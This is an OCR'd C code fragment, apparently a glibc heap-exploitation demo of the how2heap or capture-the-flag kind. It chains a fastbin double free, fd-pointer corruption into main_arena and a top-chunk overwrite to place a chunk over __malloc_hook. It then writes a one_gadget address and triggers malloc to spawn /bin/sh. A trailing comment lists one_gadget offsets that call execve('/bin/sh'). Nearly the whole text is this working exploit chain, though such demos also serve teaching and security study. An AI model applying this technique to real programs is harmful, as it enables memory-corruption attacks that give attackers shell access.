 ```C

	p3=malloc(0x30);
	free(p3);
	ptr=(unsigned long*)p3;

  // edit fastbin fd
	*ptr=0x60;
  // 0x60 in fastbinY
	malloc(0x30);

	free(p1);
	free(p2);
	free(p1);

	malloc(0x50);
	ptr=(unsigned long*)p1;
  // edit fd to fastbinY where lays 0x60 we put on
	*ptr=libc_base+0x3c4b30;
	malloc(0x50);
	malloc(0x50);

	//chunk in the main_arena
	p1=malloc(0x50);

	// edit the top chunk
	ptr=(unsigned long*)p1;
	*(ptr+7)=libc_base+0x3c4b00;

	// chunk on the __malloc_hook
	p2=malloc(0x100);

	//edit the __malloc_hook with one_gadget
	ptr=(unsigned long*)p2;
	*ptr=libc_base+0x4526A;

	// getshell
	malloc(0x100);

	return 0;
}

/*
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
*/
```
